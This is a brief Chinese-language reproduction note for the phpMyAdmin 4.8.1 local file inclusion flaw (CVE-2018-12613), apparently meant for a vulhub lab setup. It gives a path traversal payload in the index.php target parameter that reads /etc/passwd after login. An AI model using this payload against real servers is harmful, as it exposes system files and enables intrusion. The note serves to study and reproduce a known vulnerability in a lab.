

phpmyadmin本地文件读取复现
--

### 复现环境

phpmyadmin 4.8.1
php 7

### 复现方法

去官网下载phpmyadmin 4.8.1版本，或者直接使用[vulhub](https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md)的漏洞环境

- 登录phpmyadmin

- 发送如下payload
`/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`

就可以成功读取到/etc/passwd文件